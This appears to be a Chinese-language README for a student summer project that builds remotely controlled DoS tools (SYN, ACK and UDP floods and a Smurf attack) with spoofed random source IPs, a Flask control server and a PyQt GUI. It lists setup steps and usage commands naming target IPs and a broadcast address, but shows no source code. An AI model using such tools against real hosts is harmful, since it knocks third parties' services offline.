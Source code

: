 # 111暑假專案

## Requirements

* 要做出三種不同的DoS攻擊
* 能夠有介面控制不同Host進行攻擊和停止
* DoS程式使用 C C++ 撰寫
* 能夠random source IP

## 構想
使用client-server的架構，在遠端電腦建立flask server，透過request並傳送所需參數完成攻擊和停止指令

## UML
[UML diagram](https://drive.google.com/file/d/1Wl6fYA4naVCfMY4u6Kba2XZunE7Qp2Mz/view?usp=sharing)

![](https://i.imgur.com/7OS6bR3.png)

`Use Case Diagram`

![](https://i.imgur.com/syvTlwX.png)

`Activity Diagram`

![](https://i.imgur.com/FmO4ETZ.png)
`Sequence Diagram`


## 環境
* python 3.5 up

## 攻擊種類
* SYN Flood
* ACK Flood
* UDP Flood
* Smurf

---
# 架設方法
## Server 端
:::danger
 使用root架flask server
:::
```shell=
# cd 111-Dos-project/python/
# python3 server.py

* Running on http://<IP>:9999 (Press CTRL+C to quit)
```

## Client 端




---
## 工具使用方法
### compile
```
$ ./compile.sh
```

### tcp_flood_attack
```
$ sudo ./tcp_attack <IPaddress> <port> <mode>
```

### udp_flood_attack
```
$ sudo ./udp_attack <IPaddress> <port>
```
### smurf_attack

```
$ gcc smurf.c -o tools/smurf_attack
$ sudo ./smurf_attack 192.168.200.55 192.168.200.255

The first ip is attacked address, second is the local area network.
```

## GUI interface使用方法

---
### 安裝套件
* pip install PyQt5
* pip3 install requests2

```shell=
# cd 111-Dos-project/
# python3 interface.py
